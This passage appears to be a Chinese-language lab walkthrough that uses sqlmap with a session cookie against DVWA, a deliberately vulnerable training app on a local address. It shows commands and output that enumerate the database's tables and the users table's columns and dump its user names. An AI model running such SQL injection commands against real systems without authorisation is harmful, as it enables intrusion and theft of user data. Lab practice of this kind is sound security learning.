 **查看指定数据库并展示所有表：**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa --tables
```

result

```
[08:49:55] [INFO] fetching tables for database: 'dvwa'
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

**查看指定数据库的指定表的所有列：**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users --columns
```

result

```
[08:52:02] [INFO] fetching columns for table 'users' in database 'dvwa'
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
```

**查询指定列数据：**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users -C user --dump
```

result

```
[08:56:36] [INFO] fetching entries of column(s) '`user`' for table 'users' in database 'dvwa'
Database: dvwa
Table: users
[5 entries]
+---------+
| user    |
+---------+
| admin   |
| gordonb |
| 1337    |
| pablo   |
| smithy  |
+---------+
```